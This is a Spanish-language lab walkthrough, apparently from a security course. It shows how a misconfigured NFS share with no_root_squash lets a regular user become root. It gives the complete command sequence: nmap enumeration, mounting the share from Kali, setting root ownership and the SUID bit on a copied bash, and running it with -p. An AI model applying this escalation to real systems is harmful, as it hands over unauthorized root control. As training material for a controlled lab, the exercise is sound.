 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Ejercicio 1: Convertirse en root por una NFS mal configurada.

Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```

![propietario de bash](../img/lab-04-D/202209101503.png)


Ahora en la maquina ***Kali***.

El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir -p /tmp/share
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.60:/datos /tmp/share
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101823.png)

A través del punto de montaje, podemos ver el archivo ***bash*** que el usuario ***luke*** copió.
```
cd /tmp/share

ls -l
```

Para que el exploit funcione, debemos asignar el permiso ***SUID*** al archivo copiado (***bash***). Al haber montado el share con la opción ***no_root_squash*** habilitata, nos da acceso de administrador a los archivos que allí se encuentren.

Vamos a cambiar el ***propietario*** y asignar el permiso ***SUID*** a ***bash***.
```
sudo chown root.root bash
```

```
sudo chmod +s bash

ls -l bash
```

En la imagen podemos ver el resultado.

![SUID](../img/lab-30-D/202209102213.png)

Un archivo con el permiso ***SUID*** (bit s), puede ser ejecutado por cualquier usuario, pero siempre se ejecuta con el permiso del propietario, que es ***root***.

En la máquina ***ubu_srv_01***, donde hemos iniciado la sesión con el usuario ***luke***, ejecutamos el comando.
(Nota: ***-p*** ejecuta la shell en modo privilegiado, de no ponerlo, SUID no tendrá efecto.)
```
/datos/bash -p
```

Ahora solo queda preguntar al sistema quién somos.
```
whoami
```

Hemos escalado al ***root*** sin necesidad de conocer la contraseña.

![bash -p](../img/lab-30-D/202209102221.png)

Ya solo queda desmontar el share. En la máquina ***Kali***.
```
cd ~

sudo umount /tmp/share
```

***FIN DEL LABORATORIO***